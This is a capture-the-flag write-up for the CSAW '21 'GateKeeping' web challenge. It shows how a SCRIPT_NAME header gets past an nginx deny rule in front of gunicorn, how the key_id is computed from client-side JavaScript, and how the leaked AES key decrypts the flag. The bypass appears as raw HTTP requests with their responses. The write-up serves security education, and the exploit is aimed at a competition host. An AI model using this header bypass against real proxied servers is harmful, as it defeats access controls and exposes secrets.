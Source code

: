```yaml
---
title: GateKeeping - CSAW '21 Qualifier
date: 2021-09-14
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - CTF
tags:
 - Nginx
---
```


**tl;dr**

+ Bypass nginx's DENY ALL using `SCRIPT_NAME`
+ Calculate key_id uploading `flag.txt.enc`
+ Leak the key and decrypt `flag.txt.enc`

<!--more-->

**Challenge points**: 395

**No of solves**: 133

**Solved by**:[1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_), [Az3z3l](https://twitter.com/Az3z3l)

## Challenge Description

My previous flag file got encrypted by some dumb ransomware. They didn't even tell me how to pay them, so I'm totally out of luck. All I have is the site that is supposed to decrypt my files (but obviously that doesn't work either).

**Source Code:** [here](source-code.zip)


## Solution

### Bypassing Nginx

`SCRIPT_NAME` is a header that is sent by the proxy to the backend.`SCRIPT_NAME` is used to set the request url's root path so that the application knows its virtual “location”. This may be an empty string , if the application corresponds to the “root” of the server.


```
GET /asf/admin/admin/key HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
SCRIPT_NAME: /admin
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

In this case we are requesting `/asf/admin/admin/key` while SCRIPT_NAME is set to `/admin` which means forwarded request to backend will be `/admin/key`.

### key-id

```javascript
let decrypt = function() {
  const file = this.files[0];

  const reader = new FileReader();
  reader.onload = async function(evt) {
    let data = new Uint8Array(evt.target.result);

    let key_id = data.slice(0,16);
    key_id = buf2hex(key_id);

    data = data.slice(16);

    document.getElementById('result').innerHTML = '';
    let error = (e)=>{
      document.getElementById('result').innerHTML = `
      <div class="notification is-danger">
        ${e}
      </div>
      `;
    }

    try {
      let res = await fetch('/decrypt', {
        method:'POST',
        headers: {
          key_id
        },
        body: data
      });
      if (res.status === 200) {
        let dec_data = await res.blob();
        let a = document.createElement('a');
        a.setAttribute('href', URL.createObjectURL(dec_data));
        a.setAttribute('download', file.name.split('.').slice(0,-1).join('.'));
        document.body.appendChild(a);
        a.click();
        document.body.removeChild(a);
      } else if (res.status === 403) {
        error(`You must pay the ransom before you can decrypt your file!`);
      } else {
        throw "bad";
      }
    } catch(e) {
      error(`There was an error decrypting your file, please try again later!`);
    }
  }
  reader.readAsArrayBuffer(file);
}
```

As you can see that `key_id` is calculated and updated to the backend using javascript, which means we can upload any file and acquire the key from client-side(index.html).

As we have to decrypt`flag.txt.enc`we have to calculate`key_id`corresponding to`flag.txt.enc`this could be done by uploading`flag.txt.enc`and debugging javascript.The calculated`key_id`is `05d1dc92ce82cc09d9d7ff1ac9d5611d`


### Leaking the Key and decrypting flag

#### Request

```
GET /asf/admin/admin/key HTTP/1.1
Host: web.chal.csaw.io:5004
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
SCRIPT_NAME: /admin
```

#### Response

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 11 Sep 2021 11:11:10 GMT
Content-Type: application/json
Content-Length: 75
Connection: close

{"key":"b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3"}
```

#### Decrypting the flag

```python
@app.route('/decrypt', methods=['POST'])
def decrypt():
    key = binascii.unhexlify("b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3")#key
    data = request.get_data()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    return cipher.decrypt(data)
```


## Flag

flag{gunicorn_probably_should_not_do_that}